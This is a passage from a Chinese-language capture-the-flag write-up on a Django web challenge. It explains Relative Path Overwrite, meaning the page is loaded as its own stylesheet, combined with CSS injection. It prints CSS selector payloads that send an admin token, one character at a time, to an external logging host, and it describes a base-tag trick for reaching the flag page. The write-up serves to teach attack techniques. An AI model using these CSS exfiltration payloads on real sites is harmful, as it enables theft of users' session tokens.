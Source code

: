 但题目中永远不会出现无意义的信息，比如urlstorage页面，在刚才的讨论中，urlstorage页面中修改储存url的功能可以说毫无意义，这时候就要提到刚才说的RPO了。

首先整个站点是django写的，所有页面都是通过路由表实现的，所以无论我们在后面加入什么样的链接，返回页面都是和urlstorage一样的
```
http://35.198.114.228/urlstorage/random_str/1321321421
-->
http://35.198.114.228/urlstorage
```

看上去好像没什么问题，但是页面内的静态资源是通过相对路径引入的。

![image.png-102.4kB][2]

因为我们修改了根url，所以css的引入url变成了
![image.png-158.8kB][3]

我们把当前页面当做成css样式表引入到了页面内。

这里我们可以通过设置url来向页面中加入一些可以控制的页面内容。

这里涉及到一个小技巧：
**CSS在加载的时候与JS一样是逐行解析的，不同的是CSS会忽略页面中不符合CSS语法的行**

也就是说如果我们设置url为`%0a{}%0a*{color:red}`

那么页面内容会变成
![image.png-37.6kB][4]

当引入CSS逐行解析的时候，`color:red`就会被解析

![image.png-65.4kB][5]

通过设置可控的css，我们就可以使用一个非常特别的攻击思路。

我曾经在讲述CSP的博客中提到了这种攻击思路，通过CSS选择器来读取页面内容
[https://lorexxar.cn/2017/10/25/csp-paper/#1、nonce-script-CSP-Bypass](https://lorexxar.cn/2017/10/25/csp-paper/#1、nonce-script-CSP-Bypass)

```
a[href^=flag\?token\=0]{background: url(//l4w.io/rpo/logging.php?c=0);}
a[href^=flag\?token\=1]{background: url(//l4w.io/rpo/logging.php?c=1);}
..
a[href^=flag\?token\=f]{background: url(//l4w.io/rpo/logging.php?c=f);}
```

当匹配a标签的href属性中token开头符合的时候，就会自动向远程发送请求加载图片，服务端接收到请求，就代表着匹配成功了，这样的请求我们可以重复多次，就能获取到admin的token了。

这里有个小细节，服务端每次访问都会重新登陆一次，每次重新登陆都会刷新token，所以题目在contact页面还给出了一个脚本pow.py，通过这个脚本，服务端会有30s时间来访问我们的所有url，这样我们就有足够的时间拿到服务端的token。

但是问题来了，我们仍然没办法获取到flag页面的flag。

这里需要一个新的技巧。

在浏览器处理相对路径时，一般情况是获取当前url的最后一个`/`前作为base url，但是如果页面中给出了base标签，那么就会读取base标签中的url作为base url。

那么，既然flag页面的token参数，我们有24位可控，那么我们完全可以引入`/urlstorage`作为base标签，这样CSS仍然会加载urlstorage页面内容，我们就可以继续使用CSS RPO来获取页面内容。


  [1]: http://static.zybuluo.com/LoRexxar/r67ihy6epkvcnkqvnqulsvjl/image.png
  [2]: http://static.zybuluo.com/LoRexxar/sgxf9gq2ni5i7osmlm17vzry/image.png
  [3]: http://static.zybuluo.com/LoRexxar/23ujazb8yck2rnzy9b6ow02s/image.png
  [4]: http://static.zybuluo.com/LoRexxar/nptyaixmrkwgizd1bce9yhe3/image.png
  [5]: http://static.zybuluo.com/LoRexxar/2tmhyv1f575lfz6apaeg0o4q/image.png
  [6]: http://static.zybuluo.com/LoRexxar/9tys2vihqrm3xznatpwkjzkm/image.png
